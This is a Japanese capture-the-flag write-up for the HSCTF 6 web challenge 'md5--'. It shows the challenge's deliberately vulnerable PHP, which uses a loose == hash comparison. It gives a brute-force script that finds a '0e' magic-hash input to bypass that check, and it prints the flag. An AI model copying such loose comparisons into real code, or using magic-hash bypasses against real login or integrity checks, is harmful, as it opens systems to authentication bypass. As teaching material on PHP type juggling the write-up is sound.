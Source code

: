 # HSCTF 6 md5-- [Web 171pts]

## 問題

Written by: dwang

md5-- == md4

https://md5--.web.chal.hsctf.com

Note: If the link above doesn't work, try https://md4.web.chal.hsctf.com

## 解法

与えられたURLを開くとPHPのソースコードが表示される
```php
<?php
$flag = file_get_contents("/flag");

if (!isset($_GET["md4"]))
{
    highlight_file(__FILE__);
    die();
}

if ($_GET["md4"] == hash("md4", $_GET["md4"]))
{
    echo $flag;
}
else
{
    echo "bad";
}
?>
```

`?md4=hogehoge`のようにパラメータを設定し、その文字列をMD4でハッシュ化した値が元の文字列と一致していればフラグが表示される。
ただこの比較が == でなされているので、型のチェックが甘い。文字列内に数値形式の文字が含まれると数値に変換される。[^1]
つまり
`hash("md4", "0exxxxxxx") == "0eyyyyyyyyyy"`
となるようなハッシュを見つけることができれば、どちらも0と評価され条件が成立する。[^2]
CLI版で総当たりで調べると5分くらい？で出てきた。

```php

<?php

for($i = 100000000; $i <= 1000000000; $i++){
	if($i%1000000 == 0){
		echo "\r[+] i = ".strval($i);
	}
  	$s = "0e".strval($i);
  	$x = hash("md4", $s);
  	if(preg_match("#0e\d{30}#", $x)){
		echo "\n";
	    echo $s;
	    echo "\n";
	    echo $x;
		echo "\n";
	    break;
  	}
}
echo "\n";
?>
```
結果として、`0e251288019`は`0e874956163641961271069404332409`となり、これをパラメータとして送るとフラグが得られた。


Flag: `hsctf{php_type_juggling_is_fun}`


## 参考
[^1]: https://www.php.net/manual/ja/language.operators.comparison.php
[^2]: https://www.php.net/manual/ja/language.types.string.php#language.types.string.conversion
